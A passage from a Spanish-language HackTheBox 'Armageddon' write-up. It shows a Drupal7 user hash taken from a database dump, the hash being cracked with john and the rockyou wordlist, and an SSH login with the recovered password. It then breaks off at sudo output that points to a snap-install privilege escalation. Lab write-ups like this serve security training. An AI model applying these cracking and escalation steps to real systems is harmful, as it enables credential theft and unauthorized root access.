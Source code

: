 ![323bash_ruEX_mysqldump_usersTable](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/armageddon/323bash_ruEX_mysqldump_usersTable.png)

Listos, vemos información útil sobre el usuario `bruce`, tenemos un `hash`, que según [los ejemplos de hashes](https://hashcat.net/wiki/doku.php?id=example_hashes) de `hashcat` es de tipo `Drupal7`:

![323google_wiki_examples_drupalHash](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/armageddon/323google_wiki_examples_drupalHash.png)

Bien, entonces mediante `hashcat` o `john` podemos intentar crackear el hash, lo guardamos en un archivo y:

```bash
❭ cat hash_drupal_bruce 
$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
```

```bash
❭ john --wordlist=/usr/share/wordlists/rockyou.txt hash_drupal_bruce 
Using default input encoding: UTF-8
Loaded 1 password hash (Drupal7, $S$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 32768 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
booboo           (?)
1g 0:00:00:02 DONE (2021-03-31 25:25) 0.4484g/s 104.0p/s 104.0c/s 104.0C/s courtney..harley
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

**booboo**, jmmm intentemos ahora con esa contraseña ante **SSH**:

![323bash_sshBruce_done](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/armageddon/323bash_sshBruce_done.png)

Listos, tamos dentro...

...

## Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Enumerando los permisos que tenemos, vemos algo interesante:

```bash
[brucetherealadmin@armageddon shm]$ sudo -l
Matching Defaults entries for brucetherealadmin on armageddon:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR
    LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT
    LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```
